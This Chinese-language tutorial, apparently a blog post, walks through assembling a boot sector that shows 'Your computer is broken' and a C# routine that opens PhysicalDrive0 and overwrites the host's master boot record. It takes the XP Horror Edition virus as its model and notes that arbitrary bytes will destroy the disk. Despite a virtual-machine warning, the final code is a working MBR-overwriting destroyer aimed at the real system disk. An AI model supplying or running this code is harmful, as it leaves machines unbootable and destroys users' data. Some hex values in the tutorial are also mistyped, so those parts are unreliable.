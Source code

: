 # 使用汇编生成MBR并使用C#修改

by ![Xbodw](../Resources/Xbodw.png)

该文章遵循 [Attribution-NonCommercial 4.0 International]()许可协议.

## 前言

之前我分享了一个使用[Csharp(简称C#,后文用此称)](https://learn.microsoft.com/zh-cn/dotnet/csharp/tour-of-csharp/)修改[MBR](https://baike.baidu.com/item/%E4%B8%BB%E5%BC%95%E5%AF%BC%E8%AE%B0%E5%BD%95/7612638)的方法,但是,MBR是由不同进制的字符组成的,我们想要让MBR~~变成
硬盘逻辑锁~~ 显示 我们想要的字符串该怎么办？
   
   修改MBR教程链接 [016281261](?id=016281261)

该操作极其危险,需要对电脑及其熟练的人才能操作,建议在虚拟机内运行,否则,后果自负!

## 开始之前

不知大家是否知道世界上的几大电脑病毒,其中比较恐怖的有 Windows XP horror Edition.用网上简洁一点的话说,该病毒涵盖了以下几个特征:
 1.伪装成XP升级包
 
 2.运行后改注册表
 
 2.运行后改[MBR](#前言)
 
 3.修改系统文件,常见的有 666.sys

 4.进度达`66%`的时候原本伪装的XP升级界面界面变红

 5.界面变红后出现几大恐怖节目

给大家看一下该病毒改完MBR后的效果图:

![XP Horror Edition的效果图](https://ts3.cn.mm.bing.net/th?id=OIP-C.OiD8YLDkDHFoGrBmT0D4SwHaEo)

这就是通过修改MBR实现的.想要改这样的MBR不是一件简单的事.

## 准备工作

前往 [NASM官网(2.16.01下载链接)](https://www.nasm.us/pub/nasm/releasebuilds/2.16.01/win64/nasm-2.16.01-installer-x64.exe) 下载NASM.
使用汇编语言这种底层语言修改MBR是比较简单的事情.

下载完之后打开安装程序,无脑点击Next 下一步即可,安装完成后创建一个空目录.

使用资源管理器打开刚才的空目录,在地址栏键入 `cmd` 并回车,打开命令提示符.

输入`nasm --version`查看版本号,确保nasm没有报错后进行下一步.

在这个空目录里新建MBR.asm,使用Notepad++等专业工具打开,在里面输入以下内容并保存.
```asm
    org 07c00h          ; 使其加载到7c00处
    mov ax, cs
    mov ds, ax
    mov es, ax
    call    DispStr         ; 调用显示字符串例程
    jmp $          ; 无限循环显示
    DispStr:
    mov ax, BootMessage
    mov bp, ax          ; ES:BP = 串地址
    mov cx, 16          ; CX = 串长度
    mov ax, 01301h      ; AH = 13,  AL = 01h
    mov bx, 000ch       ; 页号为0(BH = 0) 黑底红字(BL = 0Ch,高亮)
    mov dl, 0
    int 10h         ; 10h 号中断
    ret
BootMessage:        db  "Your computer is broken"
times   510-($-$$)   db  0   ; 填充剩下空间为512B
dw  0xaa55
```
保存后在打开的命令提示符内输入 `nasm MBR.asm -o MBR.bin`(可以不带 .bin扩展名)

随后在命令提示符内输入
```batch
echo= > boot.img
```
打开 [FloppyWriter](https://raw.githubusercontent.com/huangyingw/FloppyWriter/master/Release/FloppyWriter.exe)(需要先登录Github),点击 `Write FIle to Image`,选择刚才生成的MBR文件,然后会弹出第二个选择框,选择boot.img.

此时如果弹出 成功,表示操作成功.

随后我们可以打开Vmware WorkStation,选择任意虚拟机(创建虚拟机网上有教程,此处不再赘述),点击 "编辑虚拟机设置",


![添加硬件](https://img2.imgtp.com/2024/01/27/t3DmTfqI.png)

再点击"添加(A)",


![选择硬件类型](https://img2.imgtp.com/2024/01/27/CRvXhzMk.png)

选择”软盘驱动器"


![选择软盘加载方式](https://img2.imgtp.com/2024/01/27/wjmfvEjm.png)

再选择“使用软盘镜像文件",点击浏览,


![浏览boot.img](https://img2.imgtp.com/2024/01/27/VLyaOS3C.png)

选择boot.img镜像并点击确定,随后可以启动虚拟机查看文字效果.

![最终演示效果](https://img2.imgtp.com/2024/01/27/qAtJgI41.png)

上述代码由于字节过长,文字显示不全只能显示 "you computer is",需要把文字搞短一点点.使用MBR只能显示很短的文字,可以使用EFI显示文字.后续可能会出如何编写EFI显示文字的教程.

回到正题,我们已经生成了汇编ASM文件.接下来可以使用HexView工具查看MBR的Hex数据,也就是类似于这样开头的数据:

![MBR代码的Hex](https://img2.imgtp.com/2024/01/27/HMEP2ZQb.png)


由于HexView工具本身不支持复制MBR数据,所以我们只能截图并使用文字识别(注意识别出的文字切记要比对Hex原文,无需比对全部,比对一下里面不是`00`的地方即可.)

随后在`Visual Studio`中创建一个 Csharp ConsoleApp (控制台应用) 项目,我以ConsoleApp3为命名,且看`Main`函数的实现代码:
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Text.RegularExpressions;
using System.Threading.Tasks;

namespace ConsoleApp3
{
    internal class Program
    {
        static void Main(string[] args)
        {
            string hexCode = @"8C C8 8E D8 8E CO E8 02
00 00 ......"; //把你的识别出来的MBR码放进去

            Regex regex = new Regex("[0-9A-Fa-f]{2}");
            MatchCollection matches = regex.Matches(hexCode);

            byte[] scode = new byte[matches.Count];

            for (int i = 0; i < matches.Count; i++)
            {
                byte b = Convert.ToByte(matches[i].Value, 16);
                scode[i] = b;
            }
            string hexString = string.Join(" ", scode.Select(b => "0x" + b.ToString("X2")));
            Console.WriteLine(hexString); //打印转换后的MBR数组
            Console.ReadLine(); //保持窗口不关
        }
    }
}

```
输入完代码按下`Ctrl`+`Shift`+`S`组合键保存代码(此代码可以多次利用,可谓是~~摸鱼好帮手~~ 一劳永逸).此时如果你按下了`F5`,就会打开一个控制台窗口.

![输出效果](https://img2.imgtp.com/2024/01/27/d6DOZveR.png)


如果你看到的是这种类型的(0x开头的数字或字母),代表你的MBR没问题.


不对呀,直接在每个MBR前面加0x不就行了? 不不不,~~懒~~ 一劳永逸不是很好吗?


如果报错了,那么可能是你在文字识别MBR图片的时候某个地方出错了,建议再次检查.

复制输出的那一堆 `0x` 开头的字符(从头到尾)

接下来重点来了,本次修改MBR的方式有一些不同,之前的[016281261](?id=016281261)是直接破坏,而本次是修改,如果乱填MBR码,也可以达到破坏的效果.

话不多说上代码:
```csharp
static void WriteMBR()
{
    byte[] scode = new byte[]
    {
        0x8C,0xC8,0x8E,0xD8,0x8E,0xE8,0x02,0xB9,0x10,0x00, ...                                 
    }; //自己之前通过控制台生成的MBR码
    uint dwBytesReturned;
    byte[] pMBR = new byte[512]; //MBR正好为 512 个字节
    Array.Clear(pMBR, 0, pMBR.Length);

    Array.Copy(scode, pMBR, scode.Length);
    /* pMBR[510] = 0x55; */
    /* pMBR[511] = 0xaa; */  //这两句代码其实是没必要的,如果你仔细留意之前控制台程序打印的MBR,你会发现结尾是有 0x55和0xaa的,加不加都没有关系

    IntPtr hDevice = CreateFile("\\\\.\\PhysicalDrive0", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, IntPtr.Zero, OPEN_EXISTING, 0, IntPtr.Zero);
    if (hDevice == IntPtr.Zero || hDevice.ToInt32() == -1)
    {
                MessageBox.Show("CreateFile failed..."); //创建硬盘文件失败
                return;
    }

    DeviceIoControl(hDevice, FSCTL_LOCK_VOLUME, IntPtr.Zero, 0, IntPtr.Zero, 0, out dwBytesReturned, IntPtr.Zero);

    WriteFile(hDevice, pMBR, 512, out dwBytesReturned, IntPtr.Zero);
    DeviceIoControl(hDevice, FSCTL_UNLOCK_VOLUME, IntPtr.Zero, 0, IntPtr.Zero, 0, out dwBytesReturned, IntPtr.Zero);
}
```

好了,本文章就到这里.如果你对我的文章满意,可不可以给我点一个三连或者赞?






 
